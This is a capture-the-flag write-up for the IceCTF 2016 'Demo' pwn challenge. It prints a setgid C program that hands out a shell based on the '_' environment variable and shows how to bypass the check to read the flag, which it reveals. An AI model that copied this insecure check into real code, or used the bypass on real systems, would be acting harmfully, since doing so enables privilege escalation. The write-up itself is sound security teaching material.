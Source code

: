 ```yaml
---
layout: post
title: "IceCTF - 55 - Demo - Pwn"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - pwn
date: 2016/08/25
thumbnail: /images/security-265130_640.jpg
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : IceCTF 2016
- **Website** : [https://icec.tf/](https://icec.tf/)
- **Type** : Online
- **Format** : Jeopardy
- **CTF Time** : [link](https://ctftime.org/event/319)

### Description

I found this awesome premium shell, but my demo version just ran out... can you help me crack it? `/home/demo/` on the shell.

## Solution

1. Connect to the shell provided by IceCTF.
2. Go to `/home/demo/`.
3. Our goal is to display `flag.txt` but it is impossible ofr the moment:
```
[ctf-578@icectf-shell-2016 /home/demo]$ cat flag.txt
cat: flag.txt: Permission denied
[ctf-578@icectf-shell-2016 /home/demo]$ sh
$ cat /home/demo/flag.txt
cat: /home/demo/flag.txt: Permission denied
```
3. Display `demo.c`
```
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <libgen.h>
#include <string.h>

void give_shell() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    if(strncmp(basename(getenv("_")), "icesh", 6) == 0){
        give_shell();
    }
    else {
        printf("I'm sorry, your free trial has ended.\n");
    }
    return 0;
}
```
4. To call `give_shell()` we have to bypass the if statement.
5. We need the `_` environment variable to be `_=icesh`.
6. But our zsh shell don't allow us to change: `_` is read-only and we can't make it writable.
```
[ctf-578@icectf-shell-2016 /home/demo]$ export \_=icesh
zsh: read-only variable: _
[ctf-578@icectf-shell-2016 /home/demo]$ typeset +rx \_=icesh
typeset: _: can't change type of a special parameter
```
7. `_` contain the name of the last command but launching `icesh` and then `./demo` doesn't work in this environment because the last command is `./demo` so `_=./demo`.
8. As `give_shell()` will give us a `/bin/sh`, let's try with it.
9. Start a `/bin/sh`.
10. With `/bin/sh`, `_` contain the last command before last one, so running `icesh` and then `./demo` will work: `_=icesh`.
11. So that launch `give_shell()` and give a `/bin/sh` enhanced with special gid instead of having *I'm sorry, your free trial has ended.* printed.
12. With this empowered shell we can display the `flag.txt` file:
```
$ cat /home/demo/flag.txt
IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
```
